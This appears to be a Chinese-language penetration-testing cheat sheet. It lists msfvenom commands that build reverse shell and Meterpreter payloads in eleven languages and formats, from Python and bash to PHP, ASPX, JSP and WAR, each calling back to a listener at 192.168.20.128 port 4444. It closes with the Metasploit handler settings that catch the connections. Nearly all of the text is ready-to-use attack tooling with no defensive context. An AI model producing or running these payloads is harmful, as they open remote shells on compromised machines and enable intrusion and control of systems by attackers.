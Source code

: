 ### 2、反弹shell生成方式

（1）python
```
msfvenom -p cmd/unix/reverse_python LHOST=192.168.20.128 LPORT=4444 -f raw > shell.py

msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f raw > shell.py
```
（2）bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.20.128 LPORT=4444 -f raw > shell.sh
```
（3）Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.20.128 LPORT=4444 -f raw > shell.pl
```
（4）Lua
```
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.20.128 LPORT=4444 -f raw -o shell.lua
```
（5）Ruby
```
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f raw -o shell.rb
```
（6）php
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
（7）aspx
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f aspx -o shell.aspx
```
（8）asp
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f asp > shell.asp
```
（9）jsp
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f raw > shell.jsp
```
（10）war
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f war > shell.war
```
（11）nodejs
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f raw -o shell.js
```
### 3、MSF监听设置
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST 192.168.20.128
set LPORT 4444
show options #查漏补缺
exploit

```
